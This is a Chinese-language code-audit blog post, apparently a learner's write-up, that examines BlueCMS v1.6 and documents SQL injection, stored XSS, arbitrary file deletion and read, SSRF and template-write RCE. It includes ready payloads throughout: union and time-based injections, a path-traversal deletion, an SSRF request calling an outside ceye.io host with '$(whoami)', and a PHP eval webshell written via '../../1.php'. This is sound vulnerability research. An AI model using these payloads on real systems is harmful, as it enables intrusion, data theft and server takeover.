# 借助 Bluecms V1.6 初试PHP代码审计


借助 Bluecms v1.6 初试PHP代码审计

# 全局分析

审计思路，写在最前面

1. 80/20法则：80%的漏洞存在于20%的代码中（用户输入处理模块）
2. 先黑后白：先黑盒测试功能点，再针对性审计代码
3. 漏洞优先级：优先检查SQL注入、文件上传、RCE等高风险漏洞模式
4. 记录跳过点：对非核心模块做简要记录，后续按需深入

聚焦点

1. 入口层：用户输入点（`$_GET`/`$_POST`）
2. 处理层：危险函数调用（SQL/文件/命令）
3. 输出层：未过滤的输出点（XSS风险）
4. 框架层：全局机制（路由/过滤/会话）

理解框架/路由极为重要，这关乎后续能不能读懂程序逻辑，快速定位漏洞

版本：`v1.6`
环境：`Apache2.4.39+MYSQL5.7.56+PHP5.3.29`

项目结构

bluecms v1.6 是一款非常老版的 cms，他的路由模式是文件即路由，或者说入口文件非常多，根目录下的每个 PHP 文件直接对应一个访问入口，没有前置控制器。前台页面都放在项目根目录，可以看到它缺乏一个统一的安全入口点。

先照例跟踪前台主页 index.php，index.php 首先进行了常量定义和引入依赖，common.inc.php 是全局公共库文件，index.fun.php 则封装了首页相关的函数

```
define("IN_BLUE",true);
require_once('include/common.inc.php');
require_once(BLUE_ROOT.'include/index.fun.php');
```

然后，程序几乎一股脑将所有工作：SQL 查询、数组组装、URL 重写、缓存调用等，都写入在 index.php 中，这也是 php 老框架的特点



看 include/common.inc.php，初始化时会对外部输入做一层 addslashes 转义，这里过滤了四种全局变量，在我读过的代码中，的确很多都没有把 $_SERVER 直接放在初始化时过滤处理，但往往在另外获取值时做了过滤，如果不做过滤，那肯定会产生漏洞 

```
if(!get_magic_quotes_gpc())
{
	$_POST = deep_addslashes($_POST);
	$_GET = deep_addslashes($_GET);
	$_COOKIES = deep_addslashes($_COOKIES);
	$_REQUEST = deep_addslashes($_REQUEST);
}
```

继续往下就是做很多初始化工作，粗略过一遍就行

接着看一下文件上传函数的封装，include/upload.class.php#img_upload，在面向对象编程时，会将相关功能函数和属性封装到类中，再将类封装入类定义文件中，这类文件的命名规范即 .class.php 形式，如 upload.class.php，内部封装着 Upload() 类

接着仔细阅读 upload.class.php，这里先定义路径变量，然后通过 filetype 比较来确定图片类型，这里很显然能够 MIMI 绕过

```
private $allow_image_type = array('image/jpeg', 'image/gif', 'image/png', 'image/pjpeg');
private $extension_name_arr = array('jpg', 'gif', 'png', 'pjpeg');
//允许上传的图片类型和图片扩展名
function img_upload($file, $dir = '', $imgname = ''){
    if(empty($dir)){
    }else{
    }
    if(!in_array($file['type'],$this->allow_image_type)){
        echo '<font style="color:red;">不允许的图片类型</font>';
        exit;
        //白名单数组形式验证图片类型
    }
    if(empty($imgname)){
        $imgname = $this->create_tempname().'.'.$this->get_type($file['name']);
        //这里调用了两个类内函数，跟进
    }
    if(!file_exists($dir)){
        if(!mkdir($dir)){
        }
    }
    $imgname = $dir . $imgname;
    if($this->uploading($file['tmp_name'], $imgname)){
    }else{
    }
```

然后再定义文件名变量，并调用到了两个类方法，逐一了解类方法内的功能实现

include/upload.class.php#create_tempname 是单纯的生成随机数

```
function create_tempname(){
    return time().mt_rand(0,9);
}
```

重点在 include/upload.class.php#get_type，取出最后一个点后字符，并将其与白名单进行比较，取出的字符就是系统写入文件的指定后缀

```
function get_type($filepath){
    $pos = strrpos($filepath,'.');
    if($pos !== false){
        $extension_name = substr($filepath,$pos+1);
    }
    if(!in_array($extension_name, $this->extension_name_arr)){
        echo '<font style="color:red;">您上传的文件不符合要求,请重试</font>';
        exit;
    }
    return $extension_name;
}
```

回到 img_upload ，经过一系列检查后，最后使用 include/upload.class.php#uploading 直接上传文件

```
function uploading($tempfile, $target){
    if(isset($file['error']) && $file['error'] > 0){
        showmsg('上传图片错误');
    }
    if(!move_uploaded_file($tempfile, $target)){
        return false;
    }
    return true;
}
```

后台逻辑处理和公共库文件与前台差不多


# 源码审计

## 前台多处SQL注入

**一、**
`bluecms/ad_js.php`第十行仅对代码进行 `trim()`前后空白符`(%20、\t、\n、\r、\0、\v)`删除，直接拼接入字符串中并进行 `SQL` 查询


内部函数没有进行过滤，一路畅通无阻直到执行查询



`ad_js.php`在最开始引用了公共函数库，在后续代码执行前对输入的特殊字符进行转义，但我们这里是数值型注入，并不受影响，同时发现这里仅对四种全局变量进行了过滤，后续字符串注入由此发现
```
require_once dirname(__FILE__) . '/include/common.inc.php';
```
根据表结构得知为 7 列
```
mysql> DESCRIBE blue_ad;
+-------------+------------------+------+-----+---------+----------------+
| Field       | Type             | Null | Key | Default | Extra          |
+-------------+------------------+------+-----+---------+----------------+
| ad_id       | int(10) unsigned | NO   | PRI | NULL    | auto_increment |
| ad_name     | varchar(40)      | NO   |     | NULL    |                |
| time_set    | tinyint(1)       | NO   |     | 0       |                |
| start_time  | int(11)          | NO   |     | 0       |                |
| end_time    | int(11)          | NO   |     | 0       |                |
| content     | text             | NO   |     | NULL    |                |
| exp_content | text             | NO   |     | NULL    |                |
+-------------+------------------+------+-----+---------+----------------+
```

`Payoad` 
```
/bluecms/ad_js.php?ad_id=-1 union select 1,2,3,4,5,6,version()
```

**二、**
在 `bluecms/guest_book.php`处存在字符型注入

关键代码如下

```
$sql = "INSERT INTO " . table('guest_book') . " (id, rid, user_id, add_time, ip, content) VALUES ('', '$rid', '$user_id', '$timestamp', '$online_ip', '$content')";
$db->query($sql);
```
这里的全局变量 `$online_ip`是注入点，审计这个洞考验了对项目库文件的了解程度，该变量在全局初始化文件`bluecms/include/common.inc.php`中被定义

跟进 `bluecms/include/common.func.php#getip()`，可以看到这里通过`getenv`来获取`HTTP`请求头，没有经过上面的四种全局变量过滤，那么我们通过`HTTP`请求头注入字符串，是否就能不被转义，完成注入呢

这里碰到一个问题，我的`Apache`无法正确解析 `X_FORWORDED_FOR、X_FORWARDED`等请求头，可能需要调整`httpd.conf`，这里直接使用 `CLIENT_IP`解决

```
POST /bluecms/guest_book.php HTTP/1.1
Host: 192.168.43.169:8088
CLIENT-IP: ',sleep(5))#
Content-Type: application/x-www-form-urlencoded
Content-Length: 18

act=send&content=1
```


## 前台存储型XSS
漏洞位置为`bluecms/user.php`两百多行，大部分参数都使用 `htmlspecialchars`进行了转义，但发现 `content、descript`两个参数并未直接进行转义处理


`content`用公共库函数文件中的`filter_data`做了正则替换，但仅仅匹配`XSS`中个别关键词，换个标签直接绕过


`payload`
```

<ScRiPt>alert(1)</ScRiPt>
```


`descript`参数则压根没做处理，直接`XSS`即可



## 前台任意文件删除
`bluecms/publish.php`存在任意文件删除漏洞

关键代码段如下
```
elseif($act == 'del_pic')  
{  
    $id = $_REQUEST['id'];  
    $db->query("DELETE FROM ".table('post_pic').  
             " WHERE pic_path='$id'");  
    if(file_exists(BLUE_ROOT.$id))  
    {  
       @unlink(BLUE_ROOT.$id);  
    }  
}
```
程序将传参与 BLUE_ROOT 拼接，即与 `bluecms`根目录拼接，判断如果文件存在，则直接`unlink`删除文件


在网站上级目录创建 `1.txt`


```
http://192.168.43.169:8888/bluecms/publish.php?act=del_pic&id=../1.txt
```
成功删除


## 后台存储型XSS
和前台一样写法导致的漏洞，不写了


## 后台多处SQL注入
**一、** 
在 `bluecms/admin/ad.php`发现SQL注入，这里也是因为对数值型查询处理不当导致的。


当通过全局函数文件进行 `addslashes`全局过滤时，字符型暂时找不到绕过引号转义的方式，而数值型因为开发疏漏仍然存在注入
关键代码如下

```
$ad_id = !empty($_GET['ad_id']) ? trim($_GET['ad_id']) : '';
$ad = $db->getone("SELECT ad_id, ad_name, time_set, start_time, end_time, content, exp_content FROM ".table('ad')." WHERE ad_id=".$ad_id);
```

`Payload`
```
/bluecms/admin/ad.php?act=edit&ad_id=-1%20union%20select%201,version(),3,4,5,6,7
```

**二、**
在 `bluecms/admin/admin_log.php`中存在SQL注入


关键代码如下，程序判断传参是否为数组，并将数组传参的值拼接入字符串中执行`SQL`操作
```
elseif($act == 'del'){
 	if($_POST['checkboxes']!=''){
	 	if(is_array($_POST['checkboxes'])){
			foreach($_POST['checkboxes'] as $key=>$val){
		 		$sql = "delete from ".table('admin_log')." where log_id = ".$val;
				if(!$db->query($sql)){
					showmsg('删除日志出错');
				}}}else{if(){}}}else{}}
```

因为是数组，所以`Payload`需要略作变形，这里无回显使用时间盲注形式来测试
```
POST /bluecms/admin/admin_log.php HTTP/1.1
Host: 192.168.43.169:8088
Content-Type: application/x-www-form-urlencoded
Content-Length: 37

checkboxes[]=-1 OR SLEEP(1)&act=del
```
这里不知名原因`sleep(1)`延迟`20`秒，但稳定都是 `20`秒

**三、**
在后台`bluecms/admin/article.php`也存在`SQL`盲注

关键代码如下

```
elseif($act == 'del'){
	$article = $db->getone("SELECT cid, lit_pic FROM ".table('article')." WHERE id=".$_GET['id']);
 	$sql = "DELETE FROM ".table('article')." WHERE id=".intval($_GET['id']);
 	$db->query($sql);
 	if (file_exists(BLUE_ROOT.$article['lit_pic'])) {
 		@unlink(BLUE_ROOT.$article['list_pic']);
 	}
 	showmsg('删除本地新闻成功', 'article.php?cid='.$article['cid']);
}
```
这里正常了，`sleep(2)`延迟两秒

**四、**
在`bluecms/admin/nav.php`存在`SQL`

直接拼接传参做了`SQL`查询

```
$sql = "select * from ".table('navigate')." where navid = ".$_GET['navid'];  
$nav = $db->getone($sql);
```

`Payload` 
```
/bluecms/admin/nav.php?act=edit&navid=0%20union%20select%201,2,3,4,version(),6
```


`bluecms/admin/model.php、bluecms/admin/ad_phone.php`疑似存在`SQL`注入，但未测试出注入失败的原因

## 后台SSRF
在 `bluecms/admin/us_setting.php`中发现`SSRF`行为，即对外发起`HTTP`请求，并利用`gethostbyname`在解析失败时默认为`127.0.0.1` 


关键代码段，该`CMS`自己写了一个内置函数 `us_open`
```
$uc_info = uc_open($uc_config['uc_api'].'/index.php?m=app&a=ucinfo', 500, '', '', 1, $uc_config['uc_ip']);
```

跟进`uc_oepn`，在第`129`行时调用`fsockopen`发起`HTTP`请求，而输入可控，尽管必须`http://`开头，仍然造成了`SSRF` 


`Payload`
```
POST /bluecms/admin/uc_setting.php HTTP/1.1
Host: 192.168.43.169:8088
Content-Length: 105
Content-Type: application/x-www-form-urlencoded

uc_api=http://$(whoami).92twaa.ceye.io&uc_admin_pwd=123&uc_ip=http://$(whoami).92twaa.ceye.io&act=install
```


## 后台任意文件读取
在 `bluecms/admin/tpl_manege.php`存在任意文件读取漏洞

在代码中可以发现`fread()`中的`$file`直接被拼接到字符串最后，该参数是外部可控的，并且读取后的内容会通过 `template_assign`及 `Smarty`模板渲染到前端，造成了文件内容的读取
```
/bluecms/admin/tpl_manage.php?act=edit&tpl_name=../../index.php
```


## 后台任意文件写入(RCE)
同样在 `bluecms/admin/tpl_manege.php`存在任意文件写入漏洞

`$tpl_name`可控，可以通过`../../`形式覆盖或创建任意文件
`$tpl_content`也可控使得能做到自定义文件内容写入，`bluecms/include/common.fun.php#deep_stripslashes`作用是去除转义反斜线，如`\'`变为`'`，相当于全局过滤 `deep_addslashes` 被抵消，当然仅仅写入一句话马也无需抵消
```
POST /bluecms/admin/tpl_manage.php HTTP/1.1
Host: 192.168.43.169:8088
Content-Type: application/x-www-form-urlencoded
Content-Length: 69

act=do_edit&tpl_name=../../1.php&tpl_content=<?php eval($_POST[0]);?>
```



PS. 定个短阶目标，深入学习和分析国内统治级框架 ThinkPHP，Let's Go！


---

> Author: [L1nq](https://github.com/L1nq0)  
> URL: https://sw1mblu3.fun/posts/php%E5%AE%89%E5%85%A8-%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1%E5%AD%A6%E4%B9%A0%E8%AE%B0%E5%BD%95/  

